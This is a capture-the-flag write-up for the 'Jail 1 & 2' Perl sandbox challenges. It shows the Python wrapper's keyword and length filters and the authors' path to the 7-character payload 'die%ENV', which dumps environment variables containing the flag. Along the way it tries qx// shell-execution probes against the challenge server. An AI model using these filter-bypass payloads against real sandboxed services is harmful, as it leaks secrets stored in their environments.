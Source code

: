 # Jail 1 & 2

In these challenges we can execute Perl in a restricted environment created using a Python script called `wrapper.py`. From the Jail 2 challenge:

```python
#!/usr/bin/python3

import os
import sys
import subprocess
from functools import partial

flag = 'REDACTED'
max_length = 7

user_input = ''
while True:
    chunk = sys.stdin.read(256)
    if not chunk:
        break
    user_input += chunk

    if len(user_input) > max_length:
        print("Length: {}".format(len(user_input)))
        print("Too long!")
        sys.exit(3)

prohibited_funcs = ['system', 'exec', 'fork', 'print']

for prohibited_func in prohibited_funcs:
    if prohibited_func in user_input:
        print("No {}!".format(prohibited_func))
        sys.exit(1)

if '`' in user_input:
    print("No backticks!")
    sys.exit(2)

print("Length: {}".format(len(user_input)))

env = os.environ
env['flag'] = flag

p = subprocess.run(['perl', '-Mstrict', '-e', user_input], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, env=env)
sys.stdout.buffer.write(p.stdout)
#if p.returncode:
#    sys.stdout.write('Process exited: {}\n'.format(p.returncode))
sys.stdout.flush()
```

Jail 2 is a hardened version of the Jail 1 challenge, with the only differences being:

```python
$ diff -u jail1-wrapper.py jail2-wrapper.py
--- jail1-wrapper.py	2019-08-23 21:24:18.000000000 +0200
+++ jail2-wrapper.py	2019-08-23 21:33:25.000000000 +0200
@@ -6,7 +6,7 @@
 from functools import partial

 flag = 'REDACTED'
-max_length = 35
+max_length = 7

 user_input = ''
 while True:
@@ -36,8 +36,8 @@
 env = os.environ
 env['flag'] = flag

-p = subprocess.run(['perl', '-e', user_input], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, env=env)
+p = subprocess.run(['perl', '-Mstrict', '-e', user_input], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, env=env)
 sys.stdout.buffer.write(p.stdout)
-if p.returncode:
-    sys.stdout.write('Process exited: {}\n'.format(p.returncode))
+#if p.returncode:
+#    sys.stdout.write('Process exited: {}\n'.format(p.returncode))
 sys.stdout.flush()
```

From the Jail 2 `wrapper.py` script we see that we can give a maximum of 7 characters of Perl code to be executed. We get both standard output and standard error from Perl. A few Perl functions are banned and we have to leak the flag stored in the environment variable `flag`:

```bash
$ echo -n 'AAAAAAAA' | python3 wrapper.py
Length: 8
Too long!
$ echo -n 'print 4' | python3 wrapper.py
No print!
$ echo -n 'warn 42' | python3 wrapper.py
Length: 7
42 at -e line 1.
```

We then started reading the Perl docs and found [the qx/STRING/ operator](https://perldoc.perl.org/perlop.html#Quote-Like-Operators):

```bash
$ echo -n 'qx/>a/' | nc -v -N challenges.openctf.cat 9026
Connection to challenges.openctf.cat 9026 port [tcp/*] succeeded!
sh: can't create a: Read-only file system
Length: 6
$ echo -n 'qx/*/' | nc -v -N challenges.openctf.cat 9026
Connection to challenges.openctf.cat 9026 port [tcp/*] succeeded!
sh: bin: not found
Length: 5
```

With only 7 characters, our options are limited though. We started thinking about whether we could abuse the fact that Python 3 strings are unicode by default:

```python
$ echo -ne '\xaa' | python3 ./wrapper.py 
Traceback (most recent call last):
  File "./wrapper.py", line 13, in <module>
    chunk = sys.stdin.read(256)
  File "/usr/lib/python3.7/codecs.py", line 322, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xaa in position 0: invalid start byte
```

But this only allows us to leak a strack trace which obviously contained no flag.

We went back to the Perl docs and played a bit around. After a while we noticed that we can output the Perl environment array using `%ENV` and that we don't always necessarily need to use a space after a Perl function:

```bash
$ perl -Mstrict -e 'warn%ENV'
SHLVL1SSH_CONNECTION192.168.2.165 53779 192.168.2.140 22PATH/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/gamesTERMxterm-256colorHOME/rootPWD/rootSSH_CLIENT192.168.2.165 53779 22LS_COLORSrs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:SHELL/bin/bashMAIL/var/mail/rootXDG_RUNTIME_DIR/run/user/0LESSOPEN| /usr/bin/lesspipe %sS_COLORSautoLESSCLOSE/usr/bin/lesspipe %s %sLANGCSSH_TTY/dev/pts/2XDG_SESSION_ID31762USERrootLOGNAMEroot_/usr/bin/perl at -e line 1.
```

At 8 characters, we were almost there with the payload `warn%ENV` - how to trim it further?

Looking for [other Perl functions](https://perldoc.perl.org/index-functions.html) we noticed the [die](https://perldoc.perl.org/functions/die.html) function. If we use `die` with a string argument, this will be printed to standard error. We can use the same trick regarding omitting the space and our final payload will look like this: `die%ENV`:

```bash
$ echo -n 'die%ENV' | nc -v -N challenges.openctf.cat 9026
Connection to challenges.openctf.cat 9026 port [tcp/*] succeeded!
SOCAT_SOCKADDR10.255.4.27SOCAT_PPID1SOCAT_SOCKPORT5000flagflag{join_me_4_the_triumphant_return_of_perl}HOME/rootSOCAT_PEERADDR10.255.0.2SOCAT_VERSION1.7.3.3SOCAT_PEERPORT65254HOSTNAME144d045c1d1fSOCAT_PID1008PATH/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin at -e line 1.
Length: 7
```

From the output we can extract the flag:

```
flag{join_me_4_the_triumphant_return_of_perl}
```
